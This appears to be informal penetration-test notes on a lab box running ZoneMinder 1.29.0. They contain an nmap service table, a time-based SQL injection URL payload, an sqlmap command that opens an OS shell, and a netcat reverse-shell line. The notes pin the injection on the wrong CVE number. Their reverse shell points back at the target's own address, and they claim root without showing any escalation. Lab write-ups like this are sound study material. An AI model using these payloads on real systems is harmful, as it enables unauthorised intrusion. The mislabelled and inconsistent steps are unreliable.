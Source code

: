 # Box: 192.168.236.52

---

## System Info
- **OS/Tech:** Ubuntu Linux, PHP  
- **Application:** ZoneMinder Console v1.29.0 

---

##  Credentials
- **User:** _(none)_  
- **Password:** _(none)_

---

## Service Enumeration (`nmap -sC -sV`)
| Port    | State | Service  | Version                             |
| ------- | ----- | -------- | ----------------------------------- |
| **21**  | open  | ftp      | vsftpd 3.0.3                        |
| **22**  | open  | ssh      | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8     |
| **80**  | open  | http     | Apache 2.4.18 (Ubuntu) — ZoneMinder |
| **3305**| open  | http     | Apache 2.4.18 (Ubuntu)              |
| **8080**| open  | http     | Apache 2.4.18 (Ubuntu) — Tomcat UI  |

---

##  Initial Findings
- **FTP (21):** anonymous disabled, no user list  
- **SSH (22):** no valid creds yet  
- **HTTP (80):** ZoneMinder web console; source code not directly exposed  
- **HTTP (3305):** generic Apache test page  
- **HTTP (8080):** Tomcat management UI (no creds)  

---

##  Exploitation: SQL Injection in ZoneMinder (CVE‑2020‑7247)

1. **Vuln discovered** in `zm/index.php?view=request…&limit=…`  
2. **Time‑based payload** to confirm injection:
   ```text
   http://192.168.236.52/zm/index.php?
     view=request
     &request=log
     &task=query
     &limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#
     &minTime=1466674406.084434
   ```
Gaining an OS Shell via SQLmap + UDF
sqlmap \
  -u "http://192.168.236.52/zm/index.php?view=request" \
  --data="request=log&task=query&limit=100&minTime=5" \
  --dbms=mysql \
  --technique=T \
  --os-shell

Get a reverse shell by uploading nc into /tmp 
/tmp/nc -e /bin/bash 192.168.236.52 4444
ROOT !!!
	






